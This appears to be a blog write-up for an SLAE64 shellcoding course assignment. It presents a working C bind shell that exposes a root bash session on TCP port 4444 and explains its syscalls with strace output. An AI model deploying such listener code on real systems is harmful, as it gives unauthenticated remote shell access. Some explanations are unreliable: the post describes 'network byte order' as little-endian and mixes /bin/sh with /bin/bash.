 ```yaml
---
title: SLAE64 Assignment 1 - TCP Bind-Shell Shellcode
date: 2020-4-06
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Bind
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)


# Bindshell Analysis
## Bindshell.c
+ To better understand x64 shellcode, I first created a working bindshell in C.

### shellcode.c
```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <stdlib.h>

int main(void)
{
  int ipv4Socket = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
  struct sockaddr_in ipSocketAddr = { 
    .sin_family = AF_INET, 
    .sin_port = htons(4444), 
    .sin_addr.s_addr = htonl(INADDR_ANY) 
  };
  bind(ipv4Socket, (struct sockaddr*) &ipSocketAddr, sizeof(ipSocketAddr));
  listen(ipv4Socket, 0);
  int clientSocket = accept(ipv4Socket, NULL, NULL);
  dup2(clientSocket, 0);
  dup2(clientSocket, 1);
  dup2(clientSocket, 2);
  execve("/bin/bash", NULL, NULL);
}
```
### Compile Shellcode
```bash
root# uname -orm
5.3.0-amd64 x86_64 GNU/Linux
root# gcc bindshell.c -o bindshell
```

### Test Shellcode
#### Terminal 1
```bash 
root# ./bindshell

```
#### Terminal 2
```bash
root# nc 127.0.0.1 4444
whoami
root

```

### Function Analysis

#### 1. Create a new Socket.
+ For complete details see: `man socket`
```c 
int socket(int domain, int type, int protocol); 
```  
```c
int domain = AF_INET
```
+ IPv4 Internet protocols.

```c
int type = SOCK_STREAM
```
+ Provides sequenced, reliable, two-way, connection-based byte streams (TCP).
```c
int protocol = IPPROTO_IP
```
+ The protocol to be used with the socket.
+ With only one protocol option in the address family, the value `0x0` is used.

#### 2. Create an IP Socket Address structure.
```c
struct sockaddr_in {
  sa_family_t    sin_family; /* address family: AF_INET */
  in_port_t      sin_port;   /* port in network byte order */
  struct in_addr sin_addr;   /* internet address */
};
struct in_addr {
  uint32_t       s_addr;     /* address in network byte order */
}; 
```
+ `sa_family_t sin_family  = AF_INET`   
  - From Socket, we know that we will need to use the Address Family `AF_INET`  
+ `in_port_t sin_port      = htons(4444)`  
  - TCP Port 4444  
  - The `htons()` function converts our decimal integer to 16-byte little-endian hex (aka "network byte order")  
+ `struct in_addr sin_addr = htonl(INADDR_ANY)`   
  - All interfaces.  
  - The `htonl()` function converts our decimal integer to 32-byte little-endian hex.    
+ For complete details see: `man ip.7`  

#### 3. Bind the IP Socket Address to Socket. 
```c
int bind(int sockfd, const struct sockaddr \*addr, socklen\_t addrlen);`
```
  + `sockfd = ipv4Socket`  
    - The socket file descriptor returned from `socket()` and saved as the variable `ipv4Socket`.  
  + `const struct sockaddr *addr = &ipSocketAddr`  
    - A pointer to the IP Socket Address structure `ipSocketAddr`.  
  + `socklen_t addrlen = sizeof(ipSocketAddr)`  
    - The byte length of our `ipSocketAddr` structure.  
    - `sizeof()` returns the length in bytes of the variable.  
  + For complete details see: `man bind`  

#### 4. Listen for connections to the TCP Socket at the IP Socket Address.  
```c
int listen(int sockfd, int backlog);
```  
  + `int sockfd  = ipv4Socket`  
  + `int backlog = 0`   
    - This is for handling multiple connections.   
    - We only need to handle one connection at a time, therefor we will set this value to `0`.   
  + For complete details see: `man listen`  

#### 5. Accept connections to the TCP-IP Socket and create a Client Socket.  
```c
int accept4(int sockfd, struct sockaddr *addr, socklen_t *addrlen, int flags);
```  
  + `int sockfd = ipv4Socket`  
  + `struct sockaddr *addr = NULL`  
    - This structure is filled in with the address of the peer socket.  
  + `socklen_t *addrlen = NULL`  
    - When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL.  
  + `int flags  = NULL`  
  + The function will return the new Socket File-Descriptor. Save as `clientSocket`  
  + For complete details see: `man accept`  

#### 6. Transfer Standard-Input, Standard-Output, and Standard-Error to the client socket.  
```c
int dup2(int oldfd, int newfd);
dup2(clientSocket, 0); // STDIN
dup2(clientSocket, 1); // STDOUT
dup2(clientSocket, 2); // STDERR
```   
  + For complete details see: `man dup2`  

#### 7. Spawn a `/bin/sh` shell for the client, in the connected session.  
```c
int execve(const char *pathname, char *const argv[], char *const envp[]);
execve("/bin/sh", NULL, NULL);
```  
  + `const char *pathname = "/bin/sh"`  
  + `char *const argv[] = NULL`  
  + `char *const envp[] = NULL`  
  + For complete details see: `man execve`  

### Trace System-Calls  
+ Use `strace` to see system calls as the `shellcode` executes.  
```bash 
root# strace ./bindshell
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
```  
+ We see that the `Socket File-Descriptor` for our socket.
```bash
bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 0)                            = 0
accept(3, NULL, NULL

```
+ We can see it hangs at `accept(`. To keep it moving we connect to our bindshell with `nc 127.0.0.1 4444`.  
+ I removed all of the system-calls that were irrelevant from the system trace.  

```bash
accept(3, NULL, NULL)                   = 4
dup2(4, 0)                              = 0
dup2(4, 1)                              = 1
dup2(4, 2)                              = 2
execve("/bin/bash", NULL, NULL)         = 0

```
